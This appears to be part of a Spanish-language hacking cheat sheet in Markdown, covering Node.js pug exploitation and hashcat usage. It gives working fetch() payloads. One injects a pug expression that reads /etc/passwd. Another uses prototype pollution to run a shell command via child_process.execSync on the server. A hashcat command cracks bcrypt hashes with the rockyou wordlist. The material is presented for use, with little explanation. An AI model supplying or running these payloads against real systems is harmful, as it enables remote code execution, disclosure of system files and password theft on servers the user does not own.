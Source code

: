     

```
sudo apt-get install wordlists
```

---

## 6. Explotación de Node.js (`pug`, `fs`, `child_process`)

### 📌 Concepto

Permitir ejecución de código arbitrario mediante funciones inseguras de Node.js (como `pug.compile()`).

### 🔑 Payloads para `pug`

```javascript
fetch('/api/submit', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
        'artist.name': "Haigh #{require('fs').readFileSync('/etc/passwd').toString()}"
    })
});
```

```javascript
fetch('/api/submit', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
        'artist.__proto__.block': {
            'type': 'Text',
            'line': "console.log(process.mainModule.require('child_process').execSync('whoami > /app/static/pwned').toString())"
        }
    })
});
```

---
## 7. Hashcat

### 📌 Concepto

Herramienta de recuperación de contraseñas usando ataques de fuerza bruta o diccionario.

### 🔑 Comandos básicos

```
hashcat -a 0 -m 3200 bcrypt_hash_file rockyou.txt
```
